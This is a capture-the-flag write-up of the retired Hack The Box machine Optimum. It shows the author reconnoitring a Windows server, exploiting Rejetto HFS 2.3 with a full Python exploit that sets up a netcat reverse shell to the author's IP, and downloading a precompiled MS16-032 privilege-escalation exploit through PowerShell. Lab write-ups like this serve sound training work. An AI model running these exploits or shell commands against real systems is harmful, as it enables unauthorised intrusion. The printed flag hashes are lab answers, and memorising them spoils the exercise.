

# Optimum


# Information Gathering

## Nmap

Starting off with my normal opening scan returned no results oddly:

```console
root@discovery:~/htb/oscp-like/optimum# nmap -sV -sC 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-01 22:24 EST
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).
All 1000 scanned ports on 10.10.10.8 are filtered

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 230.41 seconds
```

I am going to do a full TCP port scan too to ensure I am not missing anything:

```console
root@discovery:~/htb/oscp-like/optimum# nmap -p- -T5 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-01 22:28 EST
Nmap scan report for 10.10.10.8
Host is up (0.043s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 58.52 seconds
```

That's odd. **80** is open, that should have been caught in my first scan. 

First move is to add `10.10.10.8` to my `/etc/hosts` file as `optimum.htb`. I have started always adding my target to `/etc/hosts` -- I have not seen any drawback from doing that, but its been helpful.

Heading over to `http://optimum.htb` I am greeted with what appears to be some sort of file server console

 

When trying to log into the portal, I tried all the very low hanging fruit possibilities - `admin:admin` and `admin:password`, etc. to no avail. I also threw out `dirb` and `nikto` scans, with the only interesting result coming back as an XSS vuln.

# Exploitation 

So where should I start? Well, there is a search box. I can try blindly SQL injecting to see if that does anything -- but I don't even know if SQL is behind that. I think the better direction is to use the Server Information, which in the case is **Rejetto HttpFileServer 2.3**, and looking for any vulnerabilities with that. 

```console
root@discovery:~/htb/oscp-like/optimum# searchsploit rejetto                                                             
-------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                  |  Path                                  
                                                                                | (/usr/share/exploitdb/)                
-------------------------------------------------------------------------------- ----------------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)          | exploits/windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities               | exploits/windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                  | exploits/multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)             | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)             | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution        | exploits/windows/webapps/34852.txt
-------------------------------------------------------------------------------- ----------------------------------------
```
## User Flag

So the exploit was faily simple to employ. I had to start up my listener on my local machine:

```console
root@discovery:~/htb/oscp-like/optimum# nc -lvnp 42069
listening on [any] 42069 ...
```
and then edit the exploit itself to include my own IP and port I'd like to connect back to -- the same one in my listener:

```python                                        
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#          It's different from classic file sharing because it uses web technology to be more compatible with today's In>
#          It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Acces>
  
#Usage : python Exploit.py <Target IP address> <Target Port Number>
 
 
import urllib2
import sys
 
try:
    def script_create():
        urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")
 
    def execute_script():
        urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")
 
    def nc_run():
        urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")
 
    ip_addr = "10.10.14.75" #local IP address
    local_port = "42069" # Local Port number
    vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adi>
    save= "save|" + vbs
    vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
    exe= "exec|"+vbs2
    vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
    exe1= "exec|"+vbs3
    script_create()
    execute_script()
    nc_run()
except:
    print """[.]Something went wrong..!
    Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
    Don't forgot to change the Local IP address and Port number on the script"""
```

Then I catch the connection back on my listener and boom we are the user `kostas`:

```console
C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

09/02/2020  04:16 ��    <DIR>          .
09/02/2020  04:16 ��    <DIR>          ..
09/02/2020  06:20 ��    <DIR>          %TEMP%
08/02/2020  05:18 ��               745 checks.txt
08/02/2020  06:51 ��           560.128 exploit.exe
08/02/2020  05:11 ��                 7 hello.txt
18/03/2017  02:11 ��           760.320 hfs.exe
18/03/2017  02:13 ��                32 user.txt.txt
               5 File(s)      1.321.232 bytes
               3 Dir(s)  31.894.876.160 bytes free
```

d0c39409d7b994a9a1389ebf38ef5f73

## Root Flag

Time for priv esc. A nifty tool I've used before is called [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). It takes a current list of the Microsoft Vulnerability Database, a `systeminfo` output from the target machine and then maches them up to look for potential paths of PrivEsc.

First I am going to get the `systeminfo` output from the box:

```console
C:\>systeminfo
systeminfo
host
Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ��
System Boot Time:          8/2/2020, 4:39:47 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.052 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.458 MB
Virtual Memory: In Use:    1.045 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connenction
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

Following that, I just need to update the tool's db:

```console
root@discovery:~/tools/Windows-Exploit-Suggester# ./windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-02-02-mssb.xls
[*] done
```

Then I mash them up together and see what it says:

```console
root@discovery:~/tools/Windows-Exploit-Suggester# ./windows-exploit-suggester.py --database 2020-02-02-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*] 
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*] 
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[*]   https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
[*]   https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
[*] 
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[*]   https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
[*] 
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[*]   https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
[*]   https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC
[*] 
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[*]   Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
[*] 
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[*]   https://www.exploit-db.com/exploits/39232/ -- Microsoft Windows devenum.dll!DeviceMoniker::Load() - Heap Corruption Buffer Underflow (MS16-007), PoC
[*]   https://www.exploit-db.com/exploits/39233/ -- Microsoft Office / COM Object DLL Planting with WMALFXGFXDSP.dll (MS-16-007), PoC
[*] 
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[*]   https://www.exploit-db.com/exploits/38968/ -- Microsoft Office / COM Object DLL Planting with comsvcs.dll Delay Load of mqrt.dll (MS15-132), PoC
[*]   https://www.exploit-db.com/exploits/38918/ -- Microsoft Office / COM Object els.dll DLL Planting (MS15-134), PoC
[*] 
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[*]   https://www.exploit-db.com/exploits/39698/ -- Internet Explorer 9/10/11 - CDOMStringDataList::InitFromString Out-of-Bounds Read (MS15-112)
[*] 
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[*]   https://www.exploit-db.com/exploits/38474/ -- Windows 10 Sandboxed Mount Reparse Point Creation Mitigation Bypass (MS15-111), PoC
[*] 
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[*]   https://www.exploit-db.com/exploits/38202/ -- Windows CreateObjectTask SettingsSyncDiagnostics Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38200/ -- Windows Task Scheduler DeleteExpiredTaskAfter File Deletion Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
[*] 
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[*]   https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
[*] 
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[*]   https://www.exploit-db.com/exploits/38222/ -- MS15-078 Microsoft Windows Font Driver Buffer Overflow
[*] 
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[*]   https://www.exploit-db.com/exploits/37052/ -- Windows - CNG.SYS Kernel Security Feature Bypass PoC (MS15-052), PoC
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*] 
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*] 
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[*]   http://www.exploit-db.com/exploits/35661/ -- Windows 8.1 (32/64 bit) - Privilege Escalation (ahcache.sys/NtApphelpCacheControl), PoC
[*] 
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*] 
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
```

Thats a lot. I have two trains of thought when I encounter a set of options like this. I can either start with the newest exploit first -- hoping the box was made before that particular issue was patched, or I can start with the oldest exploit first thinking that is what the creator of the box intended. I feel like the former is more like real life, so I am going to start at the top with `https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)`.

That didn't work like I'd hope it was going to. Its written in c, which means I would need to compile it for windows and that is a lot more in depth than I know this box is going to be. I need to find a pre-compiled version of this exploit (or another on the list) somewhere.

Github to the rescue -- I found both x64 and x86 versions [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032). From the systeminfo data I got before, I know its a 64-bit machine. So I need to get that over to the box, I am going to host it locally:

```console
root@discovery:~/htb/oscp-like/optimum# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/)                                   
```

And then make a call to download it to a directory I should have full rights over:

```powershell
C:\Users\kostas\Desktop>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.75:8080/exploit.exe', 'c:\Users\kostas\desktop\exploit.exe')"
```

```console
C:\Users\kostas\Desktop>exploit.exe
exploit.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>dir^H^H^H
dir
'' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```
And to get the flag:
```console
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  02:14 ��    <DIR>          .
18/03/2017  02:14 ��    <DIR>          ..
18/03/2017  02:14 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.893.549.056 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
C:\Users\Administrator\Desktop>

```

# Conclusion

As I wrote in [Bashed's](https://github.com/sdbuchanan/HtB-Writeups-Retired/blob/master/bashed/bashed.md) conclusion, I am going to re-take OSCP this year and I want to make my way through all the OSCP-like boxes in HTB prior to re-upping my lab time. This was the first Windows box from that group I attempted. This box was pretty *okay* I guess, for a windows box. They will forever be less straight forward for some reason to me. My process was pretty good here I think, I did not fall into any rabbit holes and felt like I completed this box in a reasonable amount of time.
